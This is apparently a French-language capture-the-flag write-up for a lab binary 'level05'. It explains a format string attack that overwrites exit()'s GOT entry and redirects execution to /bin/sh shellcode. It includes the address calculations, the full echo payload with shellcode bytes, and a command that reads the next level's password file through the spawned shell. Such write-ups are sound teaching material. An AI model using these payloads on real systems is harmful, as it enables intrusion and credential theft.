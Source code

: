 On a acces a un executable qui fgets 100 octets sur l'entree standard dans un
buffer stack, puis qui les interprete comme une chaine de caracteres pour passer
toutes les majuscules en minuscules. L'executable passe ensuite le buffer a un
printf, avant d'appeler exit().

Notre attaque seras donc une format string attack pour changer l'entree GOT de
exit(), vers un shellcode. Pour eviter que l'instruction 'push eax' de notre
shellcode, qui termine la chaine de caractere "//bin/sh" dans la stack, et dont
l'opcode est 0x50, ne soit transformee en 0x70 par le passage en minuscules (car
0x50 correspond a 'P'), on passe un octet 0 apres notre chaine d'attaque de
format, juste avant le shellcode.

Avec un objdump -R, on trouve l'addresse de l'entree GOT de exit: 0x080497e0

On va la passer 2 fois dans le buffer, pour ecrire les octets 2 par 2, car les
addresses stack commencent par 0xffff.... et ecrire en 1 fois prendrait 4
milliards de caracteres (litteralement).

Pour trouver l'addresse de notre shellcode en memoire, on va deja devoir
trouver la difference entre les addresses gdb et celles de l'execution. On passe
des %p au printf pour lui faire afficher la memoire, et on cherche des addresses
stack a comparer entre gdb et l'execution normale.

$ echo "%p %p %p %p %p %p %p %p %p %p" > /tmp/in
$ cat /tmp/in | ./level05
$ gdb level05
(gdb) r < /tmp/in

En comparant les addresses on trouve que la difference entre les addresses gdb
et exec normale est de 32 octets de plus pour l'execution normale. On trouve
l'addresse du buffer dans gdb: 0xffffd698
On ajoute 0x20 pour obtenir l'addresse du buffer en execution normale: 0xffffd6b8

On trouve avec des %p que l'argument positionnel printf pour tomber dans le
buffer est de 10 (et 11 pour tomber 4 octets dans le buffer).
Notre chaine de format string attack seras donc:
[addresse GOT][addresse GOT + 4][nombre des 2 1ers octets addr shellcode]%10$n↙
[nombre des 2 derniers octets addr shellcode - octets deja affiches]%11$n

-les addresses font 4 octets chacunes (8 octets),
-le padding se fait avec "%12345x" les 2 fois, soit 2*7 octets (14 octets)
-les %n sont "%10$n" et "%11$n" soit 2*5 octets (10 octets)
-l'octet nul pour separer le shellcode de la chaine d'attaque ajoute 1 octet

Notre chaine d'attaque fait donc au total 33 octets. On ajoute 33 a l'addresse
du buffer en execution normale pour obtenir l'addresse de notre shellcode en
memoire: 0xffffd6d9

On peux maintenant trouver le nombre d'octets a mettre dans le padding pour
ecrire en memoire precisement 0xffffd6d9:
-1ere moitie: On enleve 8 pour les 8 octets des 2 addresses
0xd6d9 - 0x8 = 54993 en decimal
-2eme moitie: On enleve le nombre d'octets deja affiches (0xd6d9)
0xffff - 0xd6d9 = 10534 en decimal

Notre chaine d'attaque complete seras donc:
[chaine pour la GOT override (ligne 37-38)][octet 0][shellcode][padding pour satisfaire le fgets]

$ [copie colle du contenu de fill_script_command]
$ echo -en "\xe0\x97\x04\x08\xe2\x97\x04\x08%54993x%10\$n%10534x%11\$n\x00\x31\xc0\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"$(/tmp/fill 50) > /tmp/in
$ (cat /tmp/in; echo "cat /home/users/level06/.pass") | ./level05
